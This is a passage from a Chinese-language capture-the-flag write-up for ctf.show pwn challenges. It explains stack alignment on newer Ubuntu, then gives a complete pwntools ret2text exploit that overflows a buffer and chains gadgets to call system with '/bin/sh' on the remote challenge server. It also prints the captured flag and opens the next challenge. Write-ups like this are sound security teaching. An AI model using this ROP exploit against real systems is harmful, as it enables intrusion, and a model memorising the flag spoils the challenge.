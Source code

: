 

看其他wp说到，如果是18.04及以上，需要再加上一个ret的地址,因为还是堆栈平衡，有一个movaps

```
ROPgadget --binary ./pwn --only "ret"
```



exp如下：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28222

p = remote(ip,port)

rdi_ret_addr = 0x00000000004007e3
bin_sh_addr = 0x400808
system_addr = 0x40066E

payload = b'a'* ( 0x0A + 0x08 ) + p64(rdi_ret_addr) + p64(bin_sh_addr)  + p64(system_addr)
p.recvuntil(b'Just easy ret2text&&64bit')

p.sendline(payload)

p.interactive()
```





拿到flag：

```
ctfshow{1d053dee-be78-42b5-a86c-72f739724531}
```





## 41. pwn41

32位的 system(); 但是没"/bin/sh" ，好像有其他的可以替代

![image-20241101153529885](../_media/image-20241101153529885.png)
